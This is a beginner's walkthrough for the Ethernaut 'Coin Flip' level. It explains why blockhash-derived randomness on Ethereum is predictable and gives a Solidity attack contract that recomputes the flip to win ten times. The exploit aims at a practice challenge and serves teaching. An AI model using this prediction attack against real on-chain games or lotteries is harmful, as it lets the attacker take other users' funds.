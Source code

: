 # Ethernaut - Walkthrough for Noobs - 3 - Coin Flip

The solution to this challenge is fairly easy, however, it introduces an extremely crucial topic in the blockchain which we usually take for granted otherwise. As always, I will break down the concepts and give you all the tools to solve the problem 100% on your own and then provide my solution.

With that being said let's begin.

> Objectives:
> 
> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

### Background

If you are familiar with any programming language, you must have come across a function called `random` in some form or the other.

In Javascript for example:

```javascript
var random = Math.random();
console.log("Random Number Generated : " + random); 

//This will generate a random float between 0(inclusive) and 1(exclusive).
```

But no such function exists in Solidity. Why is that?

This is because in the true sense of the word Ethereum is a [Deterministic Finite Machine](https://www.tutorialspoint.com/automata_theory/deterministic_finite_automaton.htm). All transactions on the Ethereum blockchain are deterministic state transition operations i.e. for each input we can determine which state the machine will be in. This is not an inherent flaw per se but a trade-off we make for an extremely important thing: **Consensus.**

If the above sounds like jargon to you, it simply means:

* All nodes have the same copy of the code.
    
* All nodes run it in exactly the same manner.
    
* Thus, they must exactly arrive at the same state.
    

Read more [here](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion).

Thus, we can confidently say that on-chain randomness is not possible. However, what we truly want is not randomness but unpredictability. We want a number that might not be truly random but extremely difficult to predict till it is released.

There are a few [solutions](https://ethereum.stackexchange.com/questions/191/how-can-i-securely-generate-a-random-number-in-my-smart-contract) and workarounds to this problem, such as RANDAO, Commit Reveal Techniques, and the use of Oracles.

### Problems and Code of Importance

This leads people to try to create sort of seemingly random numbers in their contracts which are not really random and can be replicated. Since smart contracts in the same block will have the same value and thus the same random number. Some common pitfalls are using the block context variables such as block hashes, difficulty, gas limit, etc.

The way to attack this is to create another smart contract with the same code to generate the random number.

Coming back to the Coin Flip Challenge, the following code is of importance to us and should be the focal point of our attack.

```solidity
//We have 3 state variables
uint256 public consecutiveWins; //counts how many consecutive wins we have. 
uint256 lastHash; //updated by the flip() function.
//FACTOR is largest integer possible in solidity divided by 2.
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

I will try to explain the code in the comments.

```solidity
//this function basically takes a boolean representing the side of the coin and returns a boolean indicating whether the caller won or not.  
  function flip(bool _guess) public returns (bool) { 
//block.number and blockhash are global variables, we can never know the block values of the block currently being mined, therefore we are using -1 here. 
    uint256 blockValue = uint256(blockhash(block.number - 1));
//revert() is used so that we cannot call flip multiple times in the same block, and will actually have to predict the flip every single time. 
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
//coinFlip would either be 0 or 1, since Factor is Max_int/2 and there are equal numbers above and below Factor. 
    uint256 coinFlip = blockValue / FACTOR;
//if coinFlip is 1 return true else return false. Essentially a 50-50 chance. 
    bool side = coinFlip == 1 ? true : false;
//this line of code just updates consecutiveWins. 
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

Now if you realize that the "randomness" created in this block is not truly random and you can just calculate `_guess` in another function by creating another contract with the same parameter and feeding the solution in this contract. The problem is solved.

### Solution

1. Open the Remix IDE [here](http://remix.ethereum.org). We need to write an attack code.
    
2. Copy and paste the Coinflip contract into a file and name it `coinflip.sol`
    
3. Create another file and name it anything, I have named it `attack.sol`
    
4. Generate a new instance and copy the contract address.
    
5. Make sure you are not on a VM.
    
6. Copy the following code in `attack.sol`
    
7. ```solidity
    pragma solidity ^0.8.0;
      
      import './CoinFlip.sol';
      
      contract CoinFlipAttack{
        
        
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        address instanceAddress = "Your Instance Address, without the Quotes" ;
      //creates a variable of type CoinFlip pointing to our instanceAddress
        CoinFlip public originalContract = CoinFlip(instanceAddress);
      //same code to generate same result. 
        function coinAttack() public {
          uint256 blockValue = uint256(blockhash(block.number - 1));
          uint256 coinFlip = blockValue/FACTOR;
          bool side = coinFlip == 1 ? true : false;
      //calling the flip function in the contract and feeding it our solution.    
          originalContract.flip(side);
        }
      
      }
    ```
    
8. Make sure to deploy both `attack.sol` and `coinflip.sol` in Remix.
    
9. Now call the `coinAttack()` function 10 times, to pass the stage.
    
10. Make sure that `consecutiveWins()` is increasing by putting this in your console.
    
    ```javascript
    await contract.consecutiveWins()
    ```
    
    Side Quest: Doing this 10 times is a slightly cumbersome process, is there any way we can automate this?
    
    I will probably do this using python in some form later, let me know if you would want the automated version as well.
    

CoinFlip✅